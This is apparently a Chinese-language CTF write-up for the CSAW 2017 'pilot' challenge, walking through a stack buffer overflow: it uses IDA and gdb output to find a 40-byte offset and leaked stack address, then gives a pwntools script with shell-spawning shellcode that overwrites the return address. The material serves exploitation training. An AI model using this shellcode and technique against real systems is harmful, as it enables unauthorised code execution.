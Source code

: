 # 2.6 csaw 2017 pilot
首先查看程序开启的安全机制有哪些

![image](images/43819269.png)

从上面可以看出，主要的安全机制都没有打开，运行程序：

![image](images/44022549.png)

使用IDA查看代码：

![image](images/70587615.png)

关键的地方在于read(0, &buf, 0x40uLL)，这里获取一个输入，并判断输入不能大于4

下面的这串代码中输出的是泄露的地址，是栈内存中用于输入的开始地址

```cpp
v9 = std::operator<<<std::char_traits<char>>((__int64)&std::cout, (__int64)"[*]Location:");
v10 = std::ostream::operator<<(v9, &buf);
std::ostream::operator<<(v10, std::endl<char,std::char_traits<char>>);
```
![image](images/70808193.png)

栈帧结构

RIP

RBP

...

ARGS

...

RSP

这里可以直接在IDA中计算出来，查看buf相对RBP的偏移地址为

![image](images/ac79b50c-8ebd-4893-ae62-a6552fcc7161.png)

所以直接用0x20 + 8 = 40

从IDA中可以看到，这个地址与RIP之间没有其他参数，所以我们可以使用gdb来计算buf与RIP之间的字节数，打开gdb

在read函数之后下断点：

![image](images/71026038.png)

我们在0x400ae5这里下断点

```cpp
gdb-peda$ b *0x400ae5
Breakpoint 1 at 0x400ae5
gdb-peda$ r
Starting program: /home/vuln/nightmare/modules/06-bof_shellcode/csaw17_pilot/pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffe290
[*]Command:aaaaa
[----------------------------------registers-----------------------------------]
RAX: 0x6 
RBX: 0x0 
RCX: 0x7ffff7d04f81 (<__GI___libc_read+17>: cmp    rax,0xfffffffffffff000)
RDX: 0x40 ('@')
RSI: 0x7fffffffe290 --> 0xa6161616161 ('aaaaa\n')
RDI: 0x0 
RBP: 0x7fffffffe2b0 --> 0x400b90 (push   r15)
RSP: 0x7fffffffe290 --> 0xa6161616161 ('aaaaa\n')
RIP: 0x400ae5 (cmp    rax,0x4)
R8 : 0x0 
R9 : 0x7ffff7a8ef40 (0x00007ffff7a8ef40)
R10: 0x6 
R11: 0x246 
R12: 0x4008b0 (xor    ebp,ebp)
R13: 0x7fffffffe390 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x207 (CARRY PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400ad8:    mov    rsi,rax
   0x400adb:    mov    edi,0x0
   0x400ae0:    call   0x400820 <read@plt>
=> 0x400ae5:    cmp    rax,0x4
   0x400ae9:    setle  al
   0x400aec:    test   al,al
   0x400aee:    je     0x400b2f
   0x400af0:    mov    esi,0x400d90
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe290 --> 0xa6161616161 ('aaaaa\n')
0008| 0x7fffffffe298 --> 0x4008b0 (xor    ebp,ebp)
0016| 0x7fffffffe2a0 --> 0x7fffffffe390 --> 0x1 
0024| 0x7fffffffe2a8 --> 0x0 
0032| 0x7fffffffe2b0 --> 0x400b90 (push   r15)
0040| 0x7fffffffe2b8 --> 0x7ffff7c1eb6b (<__libc_start_main+235>:   mov    edi,eax)
0048| 0x7fffffffe2c0 --> 0xffffffffffffff90 
0056| 0x7fffffffe2c8 --> 0x7fffffffe398 --> 0x7fffffffe623 ("/home/vuln/nightmare/modules/06-bof_shellcode/csaw17_pilot/pilot")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000400ae5 in ?? ()
gdb-peda$ searchmem aaaaa
Searching for 'aaaaa' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0x7fffffffe290 --> 0xa6161616161 ('aaaaa\n')
gdb-peda$ i f
Stack level 0, frame at 0x7fffffffe2c0:
 rip = 0x400ae5; saved rip = 0x7ffff7c1eb6b
 called by frame at 0x7fffffffe380
 Arglist at 0x7fffffffe288, args: 
 Locals at 0x7fffffffe288, Previous frame's sp is 0x7fffffffe2c0
 Saved registers:
  rbp at 0x7fffffffe2b0, rip at 0x7fffffffe2b8

```
可以看到rip和buf之间的地址相差0x7fffffffe2b8 - 0x7fffffffe290 = 40，所以只要把rip的地址覆盖为location泄露的地址，而我们在泄露的地址上填上payload，就可以触发漏洞  



```cpp
from pwn import *

target = process('./pilot')

print target.recvuntil("[*]Location:")

leak = target.recvline()

inputAdr = int(leak.strip("\n"), 16)

payload = ""
# This shellcode is originally from: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/
# However it looks like that site is down now
# This shellcode will pop a shell when we run it
payload += "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05" 

# Padding to the return address
payload += "0"*(0x28 - len(payload))

# Overwrite the return address with the address of the start of our input
payload += p64(inputAdr)

# Send the payload, drop to an interactive shell to use the shell we pop
target.send(payload)
```